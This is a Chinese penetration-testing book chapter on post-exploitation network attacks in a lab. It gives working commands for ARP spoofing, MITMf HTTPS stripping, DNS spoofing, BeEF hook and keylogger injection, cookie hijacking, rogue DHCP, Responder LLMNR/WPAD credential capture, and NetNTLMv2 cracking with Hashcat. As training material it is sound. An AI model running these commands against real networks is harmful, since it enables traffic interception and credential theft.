# 第十一章：网络渗透测试 - 连接后攻击

获得对系统或网络的访问绝对不是执行扫描和进一步利用的结束。一旦你进入了一个安全环境，比如目标组织，这就是你需要分割并征服其他内部系统的地方。然而，执行内部扫描的技术与前几章提到的类似（第六章，*主动信息收集*）。在这里，将介绍新的技术，用于扫描、利用、权限提升和在网络上执行横向移动。更进一步地，你将学习如何使用各种技术和工具执行**中间人攻击**（**MITM**）并了解如何收集用户凭据等敏感信息。

在本章中，我们将涵盖以下主题：

+   收集信息

+   MITM 攻击

+   会话劫持

+   **动态主机配置协议**（**DHCP**）攻击

+   利用 LLMNR 和 NetBIOS-NS

+   **Web 代理自动发现**（**WPAD**）协议攻击

+   Wireshark

+   提升权限

+   横向移动策略

+   PowerShell 技巧

+   发动 VLAN 跳跃攻击

# 技术要求

以下是本章的技术要求：

+   Kali Linux: [www.kali.org](http://www.kali.org)

+   MITMf: [`github.com/byt3bl33d3r/MITMf`](https://github.com/byt3bl33d3r/MITMf)

+   Autoscan: [`sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/`](https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/)

+   Wireshark: [www.wireshark.org](http://www.wireshark.org)

+   Windows 7

+   Windows 10

+   Windows Server 2016

+   CentOS/Ubuntu

# 收集信息

在本书的早期部分，我们深入讨论了使用 Kali Linux 中的被动和主动技术和工具收集有关目标的信息的重要性。然而，当你通过利用攻击入侵系统时，这并不是渗透测试的结束。相反，这是你将继续向前利用组织网络上的不同系统、创建多个后门并获得各种受害设备上最高权限的起点。

在本节中，我们将使用以下工具进行网络扫描：

+   Netdiscover

+   AutoScan

+   Zenmap

让我们更详细地看看这些。

# 使用 Netdiscover 进行扫描

**Netdiscover**只是一个利用**地址解析协议**（**ARP**）发现网络段上连接的客户端的扫描器。ARP 在 OSI 参考模型的数据链路层（第 2 层）和网络层（第 3 层）之间运行。设备使用 ARP 来解析 IP 地址到 MAC 地址，以进行本地通信。

使用 Netdiscover 进行内部网络扫描，请遵循以下步骤：

1.  执行以下命令：

```
netdiscover -r <network-ID>/<network prefix> netdiscover -r 10.10.10.0/24
```

Netdiscover 将开始显示所有活动设备，显示它们的 IP 地址、MAC 地址、其**网络接口卡**（**NICs**）的供应商和它们的主机名，如下截图所示：


1.  要执行被动扫描并使用 Netdiscover 的嗅探器模式，请使用`-p`参数。以下是启用被动模式的示例：

```
netdiscover -p -r 10.10.10.0/24
```

由于被动模式意味着耐心地等待在电线上检测到 ARP 消息，填充表可能会耗时，因为你必须等待设备进行通信。以下是一张截图，显示被动模式已启用：


在渗透测试中，始终记得使用简单的工具来完成任务。有时，使用复杂的工具可能会让你陷入一段时间的困境。正如你已经注意到的，我们一直在使用的工具并不难使用，以完成给定的任务。

在这一部分，您已经学会了如何在 Kali Linux 上使用 Netdiscover 执行被动扫描。接下来，我们将学习如何使用 AutoScan 工具执行网络扫描。

# 使用 AutoScan-Network 进行扫描

AutoScan-Network 工具能够扫描和对本地网络段上的设备进行配置文件化。

要开始，请观察以下步骤：

1.  从以下网址下载 AutoScan-Network：[`sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/`](https://sourceforge.net/projects/autoscan/files/AutoScan/autoscan-network%201.42/)。

选择如下屏幕截图中显示的版本：


1.  一旦文件成功下载到您的 Kali Linux 机器上，打开终端并执行`tar -xzvf autoscan-network-1.42-Linux-x86-Install.tar.gz`来提取内容。以下是`tar`实用程序中使用的描述：

+   `-x`：用于提取文件

+   `-z`：通过 gzip 过滤压缩文件

+   `-v`：提供详细输出

+   `-f`：指定文件或设备

1.  接下来，使用`./autoscan-network-1.42-Linux-x86-Install`安装工具，如下面的屏幕截图所示：


1.  现在 AutoScan-Network 已经安装在 Kali Linux 上，是时候打开应用程序了。在 Kali Linux 桌面环境中，单击应用程序|AutoScan-Network 打开应用程序。

1.  网络向导将打开；单击**前进**开始设置 AutoScan-Network。

1.  接下来，设置您的网络名称并单击**前进**。

1.  向导将要求输入网络位置；将其保留为默认设置（localhost）并单击**前进**。

1.  选择您的网络适配器。如果您使用 LAN 适配器（`eth0`），请将其保留为默认设置并单击**前进**。

1.  在摘要窗口上单击**前进**以确认您的配置。

AutoScan-Network 将自动开始扫描您的本地网络，并尝试对每个设备上找到的任何服务进行指纹识别，如下面的屏幕截图所示：


完成后，AutoScan-Network 将显示在本地网络上能够检测到的所有 IP 地址、主机名和服务。

在下一节中，我们将介绍使用 Zenmap 进行扫描所需的基本技术。

# 使用 Zenmap 进行扫描

Zenmap 是 Nmap 的图形用户界面版本。它提供与其命令行版本相同的功能和特性。要打开 Zenmap，请执行以下步骤：

1.  转到应用程序|信息收集|Zenmap。

1.  一旦应用程序打开，您将看到以下用户界面，允许您指定目标或范围以及要执行的扫描类型（配置文件），并允许您创建和执行自定义扫描：



1.  扫描完成后，Zenmap 将在选项卡中填充以下信息：Nmap 输出、端口/主机、拓扑和主机详细信息：


在我们的练习中，我们一直在`10.10.10.0/24`网络上执行快速扫描，并且已经能够确定活动系统和任何开放的端口。

在本节中，您已经掌握了使用 Zenmap 进行快速扫描所需的技能。在下一节中，我们将学习更多关于 MITM 攻击的知识。

# MITM 攻击

**MITM**攻击就是攻击者坐在受害者和其余网络之间，拦截和捕获网络数据包。以下是一个示例，显示了一个攻击者（`192.168.1.5`）连接到与受害者（`192.168.1.10`）相同的段：



默认情况下，攻击者机器将无法拦截和捕获**PC1**和默认网关（`192.168.1.1`）之间的任何流量。但是，攻击者可以在受害者和网关之间执行**ARP 中毒**。ARP 中毒是指攻击者向设备发送**虚假 ARP 响应**，告诉设备更新其 IP 到 MAC 的映射。攻击者机器将向受害者发送虚假 ARP 消息，告诉受害者的机器网关已更改为`192.168.1.1 - CC:CC:CC:CC:CC:CC`，并向网关发送消息，告诉它**PC1**已更改为`192.168.1.10 - CC:CC:CC:CC:CC:CC`。

这将导致**PC1**和路由器之间交换的所有数据包都通过攻击者机器传递，攻击者机器将对这些数据包进行嗅探，以获取敏感信息，如路由更新、运行服务、用户凭据和浏览历史。

在接下来的部分中，我们将看一下在内部网络上执行成功的 MITM 攻击的各种工具和技术。

# ARPspoof

我们将首先看的工具之一是 ARPspoof。ARPspoof 用于向受害者的机器发送虚假 ARP 消息，欺骗其将流量发送到攻击者的机器或网络上的另一个网关。由于我们知道 ARP 中毒和欺骗的工作原理，我们可以直接跳入使用这个工具的实践。我们使用以下语法：

```
arpspoof -i <network adapter> -r -t <victim IP address> <gateway IP address>
```

在我们的实验室中，我正在受害者机器（`10.10.10.15`）和网关（`10.10.10.1`）之间执行 MITM 攻击，如下面的屏幕截图所示：


ARPspoof 将开始持续向两台设备发送**虚假 ARP**消息。使用*Ctrl* + *C*将停止 ARP 中毒攻击，ARPspoof 将执行清理操作，恢复受害者和网关之间的工作状态，如下面的屏幕截图所示：


一旦清理成功结束，PC（`10.10.10.15`）和网关（`10.10.10.1`）将在网络上按原意进行通信。

完成本节后，您现在可以使用 ARPspoof 执行 MITM 攻击。在下一节中，您将了解 MITMf 及其功能。

# MITMf

MITMf 是一个执行各种 MITM 攻击和技术的多合一工具，用于受害者的内部网络。MITMf 的功能包括以下内容：

+   捕获 NTLM v1/v2、POP、IMAP、SMTP、Telnet、FTP、Kerberos 和 SNMP 凭据。这些凭据将允许您访问用户的帐户、系统/设备、文件共享和其他网络资源。

+   使用 Responder 执行 LLMNR、NBT-NS 和 MDNS 中毒攻击。

要开始使用 MITMf，请按照以下说明操作：

1.  在 Kali Linux 中使用以下命令安装依赖包：

```
apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
```

1.  完成后，安装`virtualenvwrapper`：

```
pip install virtualenvwrapper
```

1.  接下来，您需要更新`virtualenvwrapper.sh`脚本中的源。首先，执行`updatedb`命令创建本地文件系统中所有文件位置的更新数据库。完成后，使用`locate virtualenvwrapper.sh`命令获取文件路径。然后，执行`source`命令，后跟文件路径，如下面的屏幕截图所示：


1.  使用`mkvirtualenv MITMf -p /usr/bin/python2.7`命令创建虚拟环境并下载 MITMf 存储库，如下面的屏幕截图所示：



1.  下载存储库后，更改目录并克隆子模块：

```
cd MITMf && git submodule init && git submodule update -recursive
```

1.  使用以下命令安装依赖项：

```
pip install -r requirements.txt
```

1.  要查看帮助菜单，请使用以下命令：

```
python mitmf.py --help 
```

您现在已在 Kali Linux 机器上设置了 MITMf。接下来，让我们深入了解 MITMf 的用例。

# MITMf 的用例

以下是 MITMf 的各种用例：

请记住，所有攻击都应该只在实验环境中进行，并且只能针对你已经获得合法许可的网络进行。

+   你可以使用 MITMf 绕过 HTTPS：

```
python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 10.10.10.1 --target 10.10.10.15
```

+   +   `-i`：指定要对 MITMf 执行的接口

+   `--spoof`：告诉 MITMf 伪造身份

+   `--arp`：通过 ARP 执行流量重定向

+   `--hsts`：加载 sslstrip 插件

+   `--dns`：加载代理以修改 DNS 查询

+   `--gateway`：指定网关

+   `--target`：指定目标

+   你可以在网关（`10.10.10.1`）和整个子网之间执行 ARP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1
```

+   你可以在受害者和网关（`10.10.10.1`）之间执行 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --target 10.10.10.10-10.10.10.50 --gateway 10.10.10.1
```

+   你可以在对子网和网关（`10.10.10.1`）执行 ARP 欺骗攻击时执行 DNS 欺骗：

```
python mitmf.py -i eth0 --spoof --dns --arp --target 10.10.10.0/24 --gateway 10.10.10.1
```

+   你可以使用 MITMf 执行 LLMNR/NBTNS/MDNS 欺骗：

```
python mitmf.py -i eth0 --responder --wredir --nbtns
```

+   你可以执行 DHCP 欺骗攻击：

```
python mitmf.py -i eth0 --spoof --dhcp
```

这种攻击在后渗透阶段非常有用。

IP 寻址方案和子网信息取自配置文件。

+   可以使用 MITMf 注入 HTML iframe：

```
python mitmf.py -i eth0 --inject --html-url <malicious web URL>
```

+   可以注入 JavaScript 脚本：

```
python mitmf.py -i eth0 --inject --js-url http://beef:3000/hook.js
```

你可以使用`responder`模块将 ARP 欺骗作为恶意代理服务器执行 WPAD 协议的 ARP 欺骗：

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --responder --wpad
```

以下是可以整合的其他参数列表：

+   **屏幕捕获**：这允许 MITMf 使用 HTML5 画布准确地获取客户端的 Web 浏览器图像，使用`--screen`命令。此外，你可以使用`--interval seconds`命令以时间间隔捕获屏幕截图。

+   **键盘记录器**：`--jskeylogger`命令将 JavaScript 键盘记录器注入受害者的网页，以捕获按键。

请记住，要查看 MITMf 工具的其他参数，你可以执行`python mitmf.py --help`命令。

完成了这一部分，你现在已经具备了使用 MITMf 执行各种类型攻击所需的技能。在下一部分，我们将介绍会话劫持攻击。

# 会话劫持

在这一部分，我们将在我们网络上的目标机器上执行会话劫持。为了执行这次攻击，我们将结合一些其他技术来确保它的成功。每当用户访问一个网站时，Web 服务器会向 Web 浏览器发送一个 cookie。该 cookie 用于监视用户的活动，并通过跟踪购物车中的商品、在浏览网站的其他区域时保持持久登录等方式提供更好的用户体验。

会话劫持允许攻击者或渗透测试人员在受害者登录网站时捕获并接管（劫持）另一个用户的会话。会话劫持允许渗透测试人员捕获会话令牌/密钥，然后使用它来未经授权地访问系统上的信息和资源。例如，捕获已登录其在线银行门户的用户的会话可以允许攻击者访问受害者的用户帐户，而无需输入受害者的用户凭据，因为他们可以简单地向网站/在线门户提供 cookie 数据。

在我们开始之前，我们将在我们的实验网络中使用以下拓扑来完成我们的练习：



为了确保你成功完成这个练习，请使用以下说明：

1.  使用 Kali Linux 中的**Ettercap-Graphical**建立 MITM 攻击。要执行此任务，请按照以下步骤导航到应用程序| 09-嗅探和欺骗| ettercap-graphical：



1.  一旦 Ettercap 打开，点击 Sniff | Unified sniffing：


1.  将会出现一个小弹出窗口。选择你的**网络接口：** **eth0**，然后点击**OK**：


1.  通过导航到主机|扫描主机来扫描你网络上的所有主机设备：


1.  扫描完成后，点击主机|主机列表，查看网络上的目标列表。选择您的目标，然后点击**添加到目标 1**：



1.  成功添加目标后，在 Ettercap 上启用 ARP 毒化，导航到 Mitm| ARP 毒化：


1.  将弹出一个窗口。选择**嗅探远程连接**，然后点击**确定**：


1.  接下来，点击开始|开始嗅探以启用 MITM 攻击：


1.  接下来，我们将使用**Hamster**工具来帮助我们操纵数据。要打开 Hamster，导航到应用程序| 09-嗅探和欺骗|仓鼠：



**Hamster**将在新的终端窗口上打开一个命令行界面，并提供 URL`http://127.0.0.1:1234`，用于查看会话信息：


1.  接下来，我们将使用**Ferret**来捕获受害者和数据目的地之间的会话 cookie。默认情况下，Kali Linux 没有安装 Ferret；此外，Ferret 是一个 32 位工具。要在 Kali Linux 上安装 Ferret，请使用以下命令：

```
dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386
```

安装成功后，导航到应用程序| 09-嗅探和欺骗|仓鼠：


1.  使用`ferret -i eth0`命令捕获以太网接口上的 cookie：


1.  在 Kali Linux 上打开网络浏览器，输入`http://127.0.0.1:1234`以访问**Hamster**代理界面。点击**适配器**：


1.  选择`eth0`适配器，然后点击**提交查询**：



1.  前往受害者的机器，使用网络浏览器，输入**Metasploitable**的 IP 地址。接下来，点击**Damn Vulnerable Web Application**（**DVWA**）。然后，使用用户名（`admin`）和密码（`password`）登录，以在受害者机器和另一个系统之间生成一些流量。

1.  在您的 Kali Linux 机器上，刷新 Hamster 网页。现在应该看到受害者的 IP 地址出现。点击受害者的 IP 地址以获取更多信息：


1.  点击左侧列中的任何 URL 将提供受害者在其网络浏览器上可能看到的图像：


1.  要查看 cookie/session 详细信息列表，请在网络浏览器上打开新标签页，并输入此处显示的 URL：


我们能够捕获受害者机器和 Web 服务器之间的交易的会话 cookie。完成此练习后，您现在可以执行 cookie 窃取/会话劫持攻击。

现在您已经完成了这个练习，您具备了在任何网络上执行会话劫持攻击所需的技能。在下一节中，我们将介绍**动态主机配置协议**（**DHCP**）攻击。

# DHCP 攻击

在许多网络中，有数百甚至数千台终端设备，如台式机、笔记本电脑和智能设备，需要网络连接以访问企业网络上的资源。但是，每个设备都需要在网络上发送和接收消息（数据包）的地址，访问本地网络之外的资源的路径（默认网关），用于确定逻辑网络分段的标识符（子网掩码），以及可以解析网络上主机名到 IP 地址的人（DNS 服务器）。

网络管理员必须确保所有终端设备上配置了以下四个组件：

+   IP 地址

+   子网掩码

+   默认网关

+   DNS 服务器

使用 DHCP 服务器允许 IT 专业人员快速有效地自动分配 IP 配置给他们网络上的终端设备。为了进一步理解网络上 DHCP 的重要性，当客户端连接到网络（有线或无线）时，客户端机器会在网络上广播一个**DHCP Discover**数据包，寻找提供 IP 配置的 DHCP 服务器。当 DHCP 服务器收到发现数据包时，它会用**DHCP Offer**数据包做出回应。该数据包包含可用的 IP 设置，客户端可以在网络上使用。客户端收到并检查来自服务器的提供后，会用**DHCP Request**做出回应，用于通知服务器将使用 IP 信息。最后，DHCP 服务器通过发送**DHCP ACK**数据包提供确认和确认。

以下图表概述了 DHCP 过程：


由于 DHCP 服务器通常向客户设备提供默认网关信息，如果 DHCP 服务器提供另一条通往互联网的路径，比如通过攻击者的机器，客户（受害者）机器将接受新路径并相应地转发其数据包。此外，将客户机上的 DNS 服务器配置更改为将所有 DNS 查询转发到虚假 DNS 服务器可能会导致受害者浏览器加载钓鱼网页。

在本节中，我们将创建一个恶意 DHCP 服务器来重定向网络上受害者的流量。首先，我们将使用 Metasploit 框架来创建我们的恶意 DHCP 服务器：

1.  使用以下命令启用 PostgreSQL 数据库和 Metasploit：

```
service postgresql start msfconsole
```

1.  Metasploit 包含一个允许我们启用 DHCP 服务器的模块。使用以下截图中显示的命令：


`show options`命令将显示在 Metasploit 中执行此模块之前必须的参数的描述，这些参数既是可选的又是必需的。

1.  我们将设置起始和结束 IP 地址，网络广播地址，网络掩码（子网掩码），DNS 服务器，默认网关（默认路由器）和恶意 DHCP 服务器的 IP 地址。以下截图演示了如何为每个参数设置值：


1.  完成后，使用`show options`命令验证每个参数的值是否设置正确：


1.  当您准备好启动/执行模块时，请输入`run`并按*Enter*。

以下片段来自我们渗透实验室中的 Windows 10 机器。仔细观察，您会发现 IP 配置在我们之前在 Metasploit 中配置的参数范围内：


此外，以下是在网络上启动恶意 DHCP 服务器期间的 Wireshark 捕获的 DHCP 消息：



仔细观察截图，我们可以看到从 Windows 10 机器发送的**DHCP Discover**数据包，寻找网络上的 DHCP 服务器。最终，我们的恶意 DHCP 服务器能够用**DHCP Offer**数据包回应客户端。

以下显示了发送给受害者 Windows 10 机器的**DHCP Offer**数据包的内容：



我们可以看到可分配给客户端的 IP 地址（`10.10.10.101`），默认网关（`10.10.10.16`），客户端的 MAC 地址，DHCP 消息的类型（`Offer`），DHCP 服务器的 IP 地址（`10.10.10.16`），子网掩码和 DNS 服务器配置。

**DHCP 请求**从客户端发送到 DHCP 服务器（恶意）以确认从**DHCP 提供**消息中接收到的 IP 配置。最后，DHCP 服务器（恶意）发送一个**DHCP ACK**数据包以确认客户端将使用提供的信息。

现在，您已经掌握了使用 Metasploit 对目标网络发动 DHCP 攻击的技能。在下一节中，我们将介绍**链路本地多播名称解析**（**LLMNR**）和 NetBIOS 攻击。

# 利用 LLMNR 和 NetBIOS-NS

在许多组织中，作为渗透测试人员，您将遇到许多充当**域控制器**（**DC**）角色的 Windows Server 机器。DC 只是运行 Active Directory 域服务的 Windows 服务器机器，用于管理组织内的所有设备。**Active Directory**（**AD**）被 IT 专业人员用来管理网络上的计算机和用户等组件。此外，IT 专业人员可以在 AD 中使用**组策略对象**（**GPOs**）来为最终设备和用户分配权限，从而创建限制以防止网络上的未经授权活动和行为。

在 Windows 环境中，**NetBIOS-NS**和**LLMNR**协议都存在。**NetBIOS-NS**代表**网络基本输入/输出系统名称服务**。NetBIOS-NS 通常用于解析本地网络上的主机名。NetBIOS 已经存在了很长时间，已经过时。但是，它仍然被用于与旧的遗留系统进行通信。

今天，LLMNR 协议通常用于没有或不可用**域名服务器**（**DNS**）服务器的网络上。与 NetBIOS-NS 类似，LLMNR 也用于解析网络上的主机名。

使用 Kali Linux，我们可以利用这些协议中的安全漏洞。在这种情况下，我们将尝试对我们的实验网络执行 MITM 攻击。此设计包含以下内容：

+   具有 Active Directory 域服务的 Windows Server 2016

+   名为`pentestlab.local`的新域

+   Windows 10 机器作为域中的客户端

+   使用 Responder 的 Kali Linux 作为攻击者机器执行 LLMNR 毒化

在这个练习中，我们将使用以下拓扑来执行我们的攻击：


确保您在实验室中安装了 Windows Server 2016。如果还没有这样做，请阅读第三章，*设置 Kali - 第 2 部分*，其中包含安装 Windows 作为虚拟机的指南。

要在 Windows Server 2016 中设置 Active Directory，请使用以下网址：[`blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/`](https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/)。

要使用 Windows 10 机器加入`pentestlab.local`域，请参考以下网址获取说明：[`helpdeskgeek.com/how-to/windows-join-domain/`](https://helpdeskgeek.com/how-to/windows-join-domain/)。此外，在您的 Windows 10 机器上，您需要将 DNS 服务器设置为 Windows Server 2016 机器的 IP 地址，然后再加入域。

实验准备好后，让我们转到我们的 Kali Linux 机器。我们将使用 Responder 执行我们的 MITM 攻击，以捕获各种协议消息。

要开始利用 LLMNR 和 NetBIOS，请遵循以下说明：

1.  使用`locate`实用程序，我们将发现`Responder.py`的位置，如下面的屏幕截图所示：


1.  将当前工作目录更改为`/usr/share/responder`。接下来，启用 Responder 以监听网络上的流量，如下面的屏幕截图所示：


我们将在 Responder 中使用以下参数：

+   +   **`-I`**，指定监听接口

+   `-r`，以启用网络上 NetBIOS 查询的响应

+   `-d`，以启用网络上域后缀查询的 NetBIOS 回复

+   `-w`，以启用 WPAD 恶意代理服务器

1.  默认情况下，Responder 对受害者执行中毒攻击。每当客户端尝试访问网络上的资源，例如文件共享时，用户的凭据就会通过网络发送，如下截图所示：


我们能够确定以下内容：

+   +   客户端的 IP 地址

+   域名

+   受害者的用户名（鲍勃）

+   受害者的密码，以 NTLMv2 哈希的形式

+   哈希算法

+   用户试图访问网络上的**服务器消息块**（**SMB**）文件共享

复制哈希并将其保存到桌面上的文本文件中。我已经将我的哈希保存在名为`Hash.txt`的文件中。

默认情况下，Responder 使用受害者的 IP 地址作为文本文件命名约定的一部分，将哈希保存在`/usr/share/responder/logs`目录中。

1.  接下来，我们可以使用**Hashcat**对 NTLMv2 哈希进行离线密码破解，以恢复用户的明文密码。使用以下语法使用 Hashcat 进行密码破解：

```
hashcat -m 5600 Hash.txt <wordlist file> --force
```

请记住，进行密码破解可能是一项耗时的任务。此外，请确保单词列表/目录文件包含大量条目，以增加成功的可能性。

使用`-m`参数来指定 Hashcat 中的模式。模式用于告诉 Hashcat 哈希的类型。模式`5600`用于**网络协议 - NetNTLMv2**。此外，要发现其他模式，请使用`hashcat --help`命令。

要下载 SecLists 单词列表，请参考以下 URL：[`github.com/danielmiessler/SecLists`](https://github.com/danielmiessler/SecLists)。

此外，您可以使用**John the Ripper**对使用 Responder 捕获的哈希进行密码破解。

现在您已经完成了本节，您现在可以利用 LLMNR 中的弱点。在下一节中，我们将演示如何利用 WPAD 的漏洞。

# WPAD 协议攻击

在企业网络中，系统管理员通常允许员工通过代理服务器访问互联网。代理服务器通常提高性能和安全性，并监视进出企业网络的网络流量。WPAD 是一种在客户端机器上使用的技术，通过 DHCP 发现方法来发现配置文件的 URL。一旦客户端机器发现文件，它就会下载到客户端机器上并执行。脚本将为客户端确定代理。

在这个练习中，我们将在 Kali Linux 上使用 Responder 来捕获受害者的用户凭据。在开始之前，本练习将使用以下拓扑结构：


使用以下步骤，我们将能够轻松地在 Windows 环境中利用 WPAD：

实验室配置与上一节相同。

1.  确保 Windows 10 客户端机器已加入由 Windows Server 托管的域。

1.  在您的 Kali Linux 机器上，使用`cd /usr/share/responder`命令将工作目录更改为 Responder 位置。

1.  执行`python Responder.py -I eth0 -wFb`命令：


片段中使用的开关提供以下功能：

+   +   `-I`：指定要使用的接口

+   `-w`：启用 WPAD 恶意代理服务器

+   `-F`：强制在`wpad.dat`文件检索中使用 NTLM 身份验证

+   `-b`：用于返回基本的 HTTP 身份验证

1.  当受害者尝试浏览或访问网络上的任何本地资源时，将出现以下登录窗口：


1.  一旦受害者输入他们的用户凭据，Responder 将以明文显示它们，如下截图所示。

请注意，此示例中使用的用户帐户是我在个人实验室域中为教育目的设置的。

只是作为提醒，Responder 生成的所有日志和捕获的数据都存储在`/usr/share/responder/logs`目录中。现在，您可以通过利用企业网络上的 WPAD 来捕获员工的用户凭据：


在下一节中，我们将学习关于 Wireshark 的知识。

# Wireshark

Wireshark 是业内最好的网络协议分析器和嗅探器之一。它的功能非常广泛，并且能够对网络数据包进行深入的结果和分析。对于网络上发生的每一次对话或交易，Wireshark 都能够提供每个数据包的构成细节。

我们将首先概述 Wireshark 的功能。

# Wireshark 的基本概述以及如何在 MITM 攻击中使用它

Wireshark 已经预先安装在您的 Kali Linux 操作系统上。要开始，请执行以下步骤：

1.  导航到应用程序| 09-嗅探和欺骗| wireshark。

1.  一旦打开 Wireshark，您将看到用户界面，如下面的屏幕截图所示：


1.  Wireshark 将提供所有网络接口的列表，并显示通过每个网络适配器传递的实时网络流量的摘要图。双击接口将立即在网络接口卡上开始实时捕获。

在本地系统上启用捕获将只显示流经攻击者机器和网络其余部分之间的流量。这意味着 Wireshark 只能拦截/嗅探流入和流出您计算机的网络流量。这并不那么方便，对吧？

让我们看看如何从网络交换机创建所有网络流量的镜像并将其发送到我们的攻击者机器。

# 配置 SPAN 端口

SPAN 允许交换机复制一个或多个端口上的流量，并将相同的副本发送到另一个端口。通常在网络安全管理员想要连接协议分析仪（嗅探器）或入侵检测系统（IDS）到网络以监视任何安全威胁时进行此配置：



在图中，攻击者机器（运行 Wireshark）连接到**Cisco IOS 2960** **交换机**上的 Fast Ethernet 0/1 接口，而其他设备连接到同一网络段。假设我们想要复制流经 Fast Ethernet 0/2、Fast Ethernet 0/3 和 Fast Ethernet 0/4 端口之间的所有流量。

要执行在 Cisco IOS 交换机上配置 SPAN 端口的任务，请使用以下准则：

1.  我们可以使用以下命令将输出发送到 Fast Ethernet 0/1：

```
Switch (config)# monitor session 1 source interface fastethernet 0/2 Switch (config)# monitor session 1 source interface fastethernet 0/3 Switch (config)# monitor session 1 source interface fastethernet 0/4 Switch (config)# monitor session 1 destination interface fastethernet 0/1
```

1.  验证配置，请在交换机上使用`show monitor`命令：



输出显示我们的源端口（用于监视网络流量）和目标端口已正确配置。一旦我们在攻击者机器上启用 Wireshark 开始在我们的本地接口`eth0`上捕获，所有网络数据包将实时显示在 Wireshark 用户界面上。

完成了这一部分，您现在可以在 Cisco IOS 交换机上配置 SPAN 端口。在下一节中，我们将深入了解如何配置 Wireshark 来嗅探网络流量。

# 在 Wireshark 上配置监视（嗅探）接口

要在 Wireshark 上配置监视（嗅探）接口，请遵循以下说明：

1.  单击“捕获”|“选项”以显示本地机器上的所有网络接口：


1.  选择适当的网络接口，选择在所有接口上启用混杂模式，然后单击“开始”开始捕获网络数据包：


1.  **数据包列表**窗格将开始填充网络数据包，因为网络上正在进行交易。单击数据包将在以下**数据包详细信息**窗格中显示其所有详细信息和字段：


当界面上的数据包被填充时，体验可能有点压倒性。在接下来的子部分中，我们将采取实际方法进行 HTTP 分析和其他类型的分析，以确定一些重要信息。

完成了本节，您现在可以将 Wireshark 用作网络上的嗅探器。在下一节中，我们将演示如何执行流量分析以收集敏感信息。

# 解析 Wireshark 数据包捕获以找到有用信息

在接下来的练习中，我们将使用**The Honeynet Project**（[www.honeynet.org](http://www.honeynet.org)）的捕获来帮助我们理解数据包分析。要执行 Wireshark 数据包的解析，请遵循以下步骤：

1.  转到[`www.honeynet.org/node/1220`](https://www.honeynet.org/node/1220)并下载`conference.pcapng`文件。此外，以下 URL，[`honeynet.org/sites/default/files/conference.pcapng.gz`](https://honeynet.org/sites/default/files/conference.pcapng.gz)，是该文件的直接下载链接。

1.  下载后，使用 Wireshark 打开`conference.pcapng`文件；您应该看到以下视图：


1.  Wireshark 的一个有用功能是通过 DNS 自动将 IP 地址解析为主机名，将 MAC 地址解析为供应商名称，并将端口号解析为服务和协议。要启用此功能，请转到编辑 | 首选项 | 名称解析。确保已选中以下选项：


1.  点击“确定”以确认并保存配置。回到主用户界面，您会注意到所有公共 IP 地址现在都已解析为它们的公共主机名：


1.  Wireshark 之所以成为强大的工具，是因为它的显示和捕获过滤器。要查看所有源自源 IP 地址的流量，请使用`ip.src == <ip 地址>`过滤器：


要显示特定目标地址的所有流量，我们可以使用`ip.dst == <ip 地址>`过滤器。但是，我们可以结合过滤器使用`(ip.src == <ip 地址>) && (ip.dst == <ip 地址>)`过滤器查看从特定源到目的地的流量。在以下截图中，我们使用过滤器查看所有源自`172.16.254.128`并前往 Google 的 DNS 服务器`8.8.8.8`的流量：


在组合过滤器时，您需要使用逻辑操作来完成任务。以下是 Wireshark 中用于组合过滤器的各种运算符的简短列表：



`Ge`运算符用于指示**大于或等于**，而`Le`运算符用于指示**小于或等于**。

要了解更多关于 Wireshark 显示过滤器的信息，请访问[`wiki.wireshark.org/DisplayFilters`](https://wiki.wireshark.org/DisplayFilters)。

对于任何人来说，记住显示过滤器可能非常具有挑战性。但是，Wireshark 已经简化了使用用户界面上的右键单击选项轻松创建自定义过滤器。现在让我们尝试一些练习，以帮助您更熟悉显示过滤器。

要开始在 Wireshark 中创建显示过滤器，请执行以下步骤：

1.  首先，在数据包 1 上右键单击源 IP 地址，然后单击**应用为过滤器** | **已选择**，立即创建并应用过滤器：



现在，我们有一个显示所有源自`172.16.254.128`地址的流量的过滤器。

1.  接下来，在目标列中，右键单击`8.8.8.8`或`google-public-dns-a.google.com`，单击**应用为过滤器**，然后选择选项**...和已选择的**：



这将导致仅显示源自`172.16.254.128`并发送到 Google 的 DNS 服务器的流量。

**应用为过滤器**选项将立即在 Wireshark 上应用显示过滤器。但是，**准备为过滤器**提供相同的选项，但不会立即应用显示过滤器。相反，它允许您继续构建过滤器语法，并在之后应用它。

1.  要查看网络上设备之间的所有对话，请单击**统计** | **对话**：


对话窗口将打开，提供多个选项卡，其中包含以太网，IPv4，IPv6，TCP 和 UDP 会话的各种详细信息，如下面的屏幕截图所示：


您将能够确定在给定时间内进行通信和传输数据包的设备。

1.  Wireshark 允许我们轻松查看通过网络下载和上传的所有文件。要执行此任务，请单击**文件** | **导出对象** | **HTTP**。 HTTP 导出窗口将打开，显示数据包，主机名（源），内容类型，大小和文件名等详细信息。要将文件导出到桌面，请在界面上选择一个数据包，然后单击**保存**：


要从 Wireshark 捕获中导出所有文件，请使用**保存所有**选项。

1.  要重新组装并查看两个设备之间的单个对话的所有消息，请右键单击数据包，然后选择**跟踪** | **TCP 流**：



Wireshark 将收集此流的所有数据包，重新组装它们，并向您呈现两个设备之间交换的消息对话框，如下面的屏幕截图所示：


以下是客户端和 Linux 服务器之间 Telnet 对话的屏幕截图。 Telnet 是一种**不安全**协议，Telnet 客户端和 Telnet 服务器之间的所有通信都以明文形式通过网络发送。以下屏幕截图显示了 Wireshark 如何重新组装单个对话的所有数据包：



我们可以看到用于登录服务器的用户凭据，服务器的**当天消息**（**MOTD**）横幅以及所有其他交易。

完成了本节，您现在具备了在 Wireshark 中创建自定义显示过滤器所需的技能。在下一节中，我们将学习如何升级权限。

# 升级权限

